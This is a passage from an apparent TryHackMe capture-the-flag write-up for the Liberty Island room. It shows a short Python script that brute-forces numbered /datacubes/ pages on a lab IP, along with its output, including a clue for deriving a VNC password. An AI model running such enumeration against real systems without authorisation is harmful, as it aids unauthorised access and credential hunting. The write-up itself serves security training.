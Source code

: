We can see that they were truthful in saying creds were redacted, but maybe if we brute force more pages we will find some that they *forgor* &#x1f480;

I made a simple python script to do so:

```python
import requests

target = "10.10.126.246"

for i in range(0, 10000):
    r = requests.get(f"http://{target}/datacubes/" + format(i, '04'))
    if r.status_code == 200:
        print(format(i, '04') + '\n' + r.text)
```

Output:
```
┌──(kali㉿kali)-[~/Ctf/TryHackMe/DX1LibertyIsland/WriteupWorkDir]
└─$ python3 brute.py      
0000
Liberty Island Datapads Archive<br/><br/>
All credentials within *should* be [redacted] - alert the administrators immediately if any are found that are 'clear text'<br/><br/>
Access granted to personnel with clearance of Domination/5F or higher only.
0011
attention nightshift:<br/>
van camera system login (same as old login): [redacted]<br/>
new password: [redacted]<br/><br/>

PS) we *will* beat you at darts on saturday, suckas.
0068
So many people use that ATM each day that it's busted 90% of the time.  But if
it's working, you might need some cash today for the pub crawl we've got
planned in the city.  Don't let the tourists get you down.  See you there
tonight, sweetie.<br/><br/>

Accnt#: [redacted]<br/>
PIN#: [redacted]<br/><br/>

Johnathan - your husband to be.<br/><br/>

PS) I was serious last night-I really want to get married in the Statue.  We
met there on duty and all our friends work there.
0103
Change ghermann password to [redacted].  Next week I guess it'll be
[redacted].  Strange guy...
0233
From: Data Administration<br/>
To: Maintenance<br/><br/>

Please change the entry codes on the east hatch to [redacted].<br/><br/>

NOTE: This datacube should be erased immediately upon completion.
0451
Brother,<br/><br/>

I've set up <b>VNC</b> on this machine under jacobson's account. We don't know his loyalty, but should assume hostile.<br/>
Problem is he's good - no doubt he'll find it... a hasty defense, but
since we won't be here long, it should work.  <br/><br/>

The VNC login is the following message, 'smashthestate', hmac'ed with my username from the 'bad actors' list (lol). <br/>
Use md5 for the hmac hashing algo. The first 8 characters of the final hash is the VNC password.
```